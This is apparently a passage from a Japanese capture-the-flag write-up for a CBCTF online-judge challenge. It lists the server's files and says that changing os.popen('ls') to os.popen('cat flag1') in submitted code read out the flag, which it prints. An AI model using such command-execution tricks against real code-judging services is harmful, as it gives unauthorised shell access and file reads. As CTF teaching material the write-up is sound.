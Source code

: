 これを提出するとファイルの一覧を取得することができました。

```
cboj
flag1
flag2
requirements.txt
run.py
uwsgi.ini
```

`os.popen('ls')` を `os.popen('cat flag1')` に変えることでフラグを得ることができました。

```
FLAG: CBCTF{well done, keep going to hack judge user! 921bc50997fd975996f5b35a487ddc33}
```
